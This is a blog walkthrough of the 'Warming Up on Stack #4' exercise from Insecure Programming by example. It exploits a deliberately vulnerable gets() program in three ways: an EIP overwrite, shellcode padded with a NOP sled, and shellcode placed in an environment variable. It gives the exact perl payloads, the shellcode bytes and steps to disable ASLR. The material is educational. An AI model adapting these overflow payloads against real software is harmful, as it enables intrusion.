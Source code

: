 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, ctf

## Introduction

Following is the part 4 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #3 - Solutions](https://7h3ram.github.io/posts/20130103_geras-wuos-stack3-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack4.c](http://pages.cs.wisc.edu/~riccardo/sec/stack4.html) program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to buf, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least `80B` from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the character array to overwrite `cookie` with desired value, [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) coud not be exploited in that manner. This is beacuse the `cookie` has been initialized with `0x000a0d00` and if we inject this string, the newline character (`0x0a`) will cause the `gets` internal read to stop processing further characters, thereby breaking our exploit. As such we won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

### Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
